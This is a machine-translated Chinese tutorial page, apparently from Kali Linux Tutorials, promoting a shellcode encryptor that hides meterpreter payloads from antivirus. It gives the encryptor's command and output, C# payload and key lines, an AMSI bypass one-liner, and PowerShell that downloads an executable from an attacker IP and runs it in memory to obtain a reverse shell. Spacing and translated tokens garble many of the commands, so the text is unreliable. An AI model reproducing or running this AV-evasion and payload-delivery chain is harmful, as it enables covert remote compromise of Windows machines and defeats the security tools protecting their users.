


# 外壳代码加密器:一个简单的外壳代码加密器/解密器/执行器来绕过反病毒

> 原文：<https://kalilinuxtutorials.com/shellcode-encryptor/>

外壳代码加密器是一个简单的外壳代码加密器/解密器/执行器来绕过反病毒。

**注意:**我已经完全重做了创建旁路的工作流程，我发现使用 PowerShell 将二进制文件注入内存是最有效的方法。

**目的**

生成包含 base64 编码、AES 加密外壳代码的. Net 二进制文件，该文件将绕过防病毒程序在 Windows 目标上执行。

**指令**

使用`**meterpreter_encryptor.py**`创建加密的 base64 外壳代码:

**根@kali:~#。/meter preter _ encryptor . py-p windows/x64/meter preter/reverse _ https-I 192 . 168 . 1 . 228-l 443-f b64
[+]生成 MSFVENOM 有效负载…
[-]未选择平台，选择 MSF::module::platform::windows from 有效负载
[-]未选择 arch，选择 arch: x64 from 有效负载
找到兼容的编码/msf.bin
[+]加密有效负载，key = fjlmjichnq 4 K6 cjncrplqug 1 HW 4 icmec…
base 64 输出:
szkmiiitri 5 hql 2y xtbgjq91 QQ 0 fuqgfr 7 yikt N2 n 1 iz 8 vq3q/briytjbb 7 nkrssjm 25 srqh+r9 whgnstv 8**

获取密钥和外壳代码，并将其插入 ProcessInjector.cs

**//解密 base64 payload
string payload = " szk MII[etc…]"；
string key = " fjlmjiegnq 4k 6 cjncrplqug 1g HW 4 IC mec "；**

将 C#代码编译成可执行文件(如`**metInject.exe**`)，并通过 web 服务器提供。

将可执行文件注入远程 PowerShell 进程:

**AMSI 绕道**

**$ a =[Ref]. assembly . gettypes()；ForEach($ b in $ a){ if($ b . Name-like "*iutils "){ $ c = $ b } }；$d = $c.GetFields('非公共、静态')；ForEach($ e in $ d){ if($ e . Name-like "*it failed "){ $ f = $ e } }；$f.SetValue($null，$ true)
$ bytes =(Invoke-WebRequest " http://192 . 168 . 1 . 228/metin jet . exe ")。内容；
$assembly = [System。Reflection.Assembly]::Load(字节)；
$entryPointMethod = $assembly。GetType(' process inject。程序'，[反思。binding flags]“Public，NonPublic”)。GetMethod('Main '，[Reflection。BindingFlags]“静态、公共、非公共”)；
$entryPointMethod。Invoke($null，(，)；**

希望你会有一个漂亮的米特尔外壳。

**求助**

**。/meterpreter_encryptor.py -h
用法:meter preter _ encryptor . py[-h][-l LPORT][-I LHOST][-m PAYLOAD][-k KEY][-e ENCODER][-f FORMAT]
可选参数:
-h，–help 显示此帮助消息并退出
-l LPORT，–l port LPORT
msfconsole 正在侦听的本地端口。
-i LHOST，–LHOST LHOST
MSF console 正在侦听的本地主机。
-p PAYLOAD，–PAYLOAD PAYLOAD
在 msfvenom 中生成的有效负载。
-m 方法，–METHOD 方法
要使用的方法:线程/委托。
-k KEY，–KEY KEY 加密密钥(32 个字符)。
-e 编码器，–ENCODER 编码器
抄表员编码器。
-f 格式，–格式格式
输出的格式。**

**反病毒扫描结果**

2021 年 3 月 10 日使用 antiscan.me 扫描了二进制文件。

[**Download**](https://github.com/plackyhacker/Shellcode-Encryptor)